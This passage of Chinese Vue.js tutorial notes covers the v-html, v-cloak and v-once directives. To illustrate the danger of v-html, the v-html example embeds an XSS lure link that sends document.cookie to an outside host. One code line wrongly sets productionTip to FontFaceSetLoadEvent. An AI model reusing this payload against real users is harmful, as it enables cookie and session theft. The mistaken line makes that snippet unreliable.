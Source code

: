     <div id="root">
        <div>你好，{{ name }}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
    
    <script type="text/javascript">
        Vue.config.productionTip = FontFaceSetLoadEvent
        new Vue({
            el:'#root',
            data:{
                name:'cess',
                str:'<h3>你好啊！</h3>',
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
            }
        })
    </script>
    ```

    3. ==v-cloak== **指令** 

        （没有值）
        （1）本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
        （2）使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

    ```html
        <title>v-cloak指令</title>
        
        <style>
        	// 设置所有带v-cloak标签的 不显示   
            [v-cloak] {
                display:none;
            }
        </style>
        
        <div id="root">
            <h2 v-cloak>{{ name }}</h2>
        </div>
        
        // 够延迟5秒收到vue.js
        <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
        
        <script type="text/javascript">
            console.log(1)
            Vue.config.productionTip = false
            new Vue({
                el:'#root',
                data:{name:'cess'}
            })
        </script>
    ```
    
     4. ==v-once==**指令**
    
        ● v-once所在节点在初次动态渲染后，就视为静态内容了 
        ● 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能
    